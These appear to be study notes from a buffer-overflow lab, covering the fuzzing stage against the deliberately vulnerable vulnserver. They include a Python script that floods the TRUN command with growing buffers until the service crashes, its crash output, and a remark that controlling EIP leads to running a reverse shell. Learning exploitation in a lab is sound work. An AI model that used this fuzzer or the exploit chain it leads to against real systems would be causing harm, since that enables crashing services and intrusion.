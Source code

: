 3. Fuzzing

Very similar to spiking in the sense that we will send a series of characters at a specific command and try to break it

Difference: In spiking, we try to do that to multiple commands and find what's vulnerable. For us, now that we know that TRUN is vulnerable, we will go and attack that and try to figure out how to break it. 

Every time we crash vulnserver, make sure to restart it, and restart the debugger + run as admin 

Copied file `1.py`:
```
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		s.send(('TRUN /.:/' + buffer ))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()
```

We run it against the vulnserver and eventually it does crash.
We receive:
```shell
root@kali:~/PEH# ./1.py 
Fuzzing crashed at 2700 bytes
```

We now know we crashed around 3000 bytes. Next step, we need to find where the EIP is at

![4b9b688742278601a569fab2e5773b05.png](../../_resources/17b7121616c3453084c863c9f050b505.png)

Once we control the EIP value, we can point it to our malicious code and run our reverse shell

